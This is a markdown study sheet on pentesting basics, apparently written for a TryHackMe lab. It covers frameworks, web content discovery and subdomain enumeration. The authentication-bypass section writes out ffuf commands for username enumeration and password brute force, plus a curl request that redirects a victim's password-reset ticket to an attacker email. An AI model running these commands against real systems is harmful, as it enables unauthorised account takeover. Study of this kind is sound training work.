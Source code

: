 # Pentesting Fundamentals
Steps : 
1. Information gathering
2. Scanning
3. Exploitation
4. Privileges escalation
5. Post-exploitation

## ROE : Rules of Engagement
The document sumarizes pentester and client's agreements. There are 3 sections permission, test scope and rules.  
https://sansorg.egnyte.com/dl/bF4I3yCcnt/?

## OSSTMM : Open Source Security Testing Methodology Manual
The manual provides a large set of methodoly in order to test a system from certifications to testing strategies.  

it includes methodologies focused on telecommunication (voIP, phones), wired network and wireless network.

## OWASP : Open Web Application Security Project
Framework with scanners in order to test the security of a website  
https://owasp.org/

## NIST Cybersecurity framework
Popular framework really detailed, lower the risk of cyber threats.  
https://www.nist.gov/cyberframework

## Website content discovery
**robot.txt** is a file that provides to crawlers a list of forbidden endpoints. We may discover depositories with vulnerabilities.

The **favicon** by default gives us information about the framework used. The following database list the equivalence between favicon hash and framework https://wiki.owasp.org/index.php/OWASP_favicon_database.  
We can download and get fav md5 with 
>curl site/fav... | md5sum

Contrary to robot.txt the **sitemap.xml** file list what endpoint are authorized for crawlers. Still we may see hidden of difficult to get endpoint and even old sites that are forgotten.

**curl** address -v can shows programation language used or even the server's version.

**OSINT Wappalyser** : online, info of website structure.

**Wayback machine** : https://archive.org/web/ archive the web, we can discover old pages of a website.

**GIT** : we can research company name to access to a public repo and look at the source code and evently credentials.

**S3 buckets** : often http(s)://{name}.s3.amazonaws.com, we can get url from git repo. Maybe we can find files with opened permissions.

**dirb webAddress /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt** : take a list of files name and check if they exist. fuff and goBuster does the same.

## Subdomain enumeration
Thar art of looking for all subdomain allows us to have more attack surfaces. We  can find subdomains by using brute force, OSINT or virtual hosts.

**OSINT**
> There is a database that shows what domains are link to SSL/TLS certificates to figth against malicious certificats. Nevertheless we can use the database to find subdomains : http://crt.sh/ or https://ui.ctsearch.entrust.com/ui/ctsearchui

> Using google algorithme like -site:www.tryhackme.com  site:*.tryhackme.com

> Using the tool sublist3r   
./sublist3r.py -d domain

**Brute force**
> Using the tool dnsrecon : dnsrecon -t brt -d domain

## Authentification bypass
Firstly we have to list the usernames. We can find them by trying to sign in and check code responses with ffuf.

> ffuf -w fileDBname -X POST -d "username=FUZZ&email=x&password=x&cpassword=xETC" -H "Content-Type: application/x-www-form-urlencoded" -u address/signup -mr "username already exists" | cut -d " " -f1 > usernames.txt; cat usernames.txt

Knowwe can try to bruteforce passwords
> ffuf -w valid_usernames.txt:W1,passlist:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u address/login -fc 200 (because expect 302 found)

### Logic flaw
With curl we can send POST request with different content in the query string of the headers and the body. If a query string has the same name than a var in the body, PHP $request var will profit post informations. We can use it to reset account password.

>curl 'address/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@whatyouwant.com'

We can create an account and change de whatyouwant mail to personal customer service mail a recuperate the ticket